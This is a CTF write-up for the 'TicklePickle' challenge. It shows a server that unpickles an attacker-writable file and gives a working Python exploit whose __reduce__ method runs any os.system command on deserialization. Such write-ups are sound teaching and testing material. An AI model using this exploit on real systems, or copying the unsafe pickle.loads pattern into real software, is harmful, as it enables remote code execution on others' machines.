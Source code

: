 # sainya-ranakshetram1
# Sainya Ranakshetram

### TicklePickle

Vulnerability: Pickle deserialization of arbitrary input

The challenge provides two files:

```py
server.py

import os
import pickle
def reverse_fun():
      with open("users.json","rb") as f:
          data = f.read()
      
      d = pickle.loads(data)
      return d

if __name__ == '__main__':
      print(reverse_fun())
```

```py
client.py

import os
import pickle
def fun(name,password):
    s = {"username":name,"password":password}
    safecode = pickle.dumps(s)
    with open("users.json","wb") as f:
        f.write(safecode)
    return safecode

if __name__ == '__main__':
    u = input("Username : ")
    p = input("Password : ")
    yo_fun = fun(u,p)
```

As can be seen, the `client.py` takes in whatever input is provided to it and serializes it to a pickle object and stores it in the `user.json` file.

The server reads this `user.json` file and performs pickle deserialization. An attacker can modify the file to make pickle deserialize arbitrary code which can lead to RCE (Remote Code Execution), and therefore reverse shells, on the server.

Here's an exploit:

```py
exploit.py

#!/usr/bin/env python3

import os
import pickle
import argparse

# Thanks https://davidhamann.de/2020/04/05/exploiting-python-pickle/
class Exploit:
    def __init__ (self, command):
        self.command = command

    def __reduce__ (self):
        return (os.system, (self.command, ), )

def exploit ():
    parser = argparse.ArgumentParser('Exploit for TicklePickle Sainya Ranakshetram CTF')
    parser.add_argument('--command', help = 'Command to execute by attacker on client\'s machine', required = True, type = str)

    args = parser.parse_args()

    with open('users.json', 'wb') as file:
        pickled = pickle.dumps(Exploit(args.command))
        file.write(pickled)

if __name__ == '__main__':
    exploit()
```



[Video Demonstration](https://drive.google.com/file/d/1DRY95AKywc3Kdv-cacbBlDEDR8TwV6a6/view?usp=sharing)
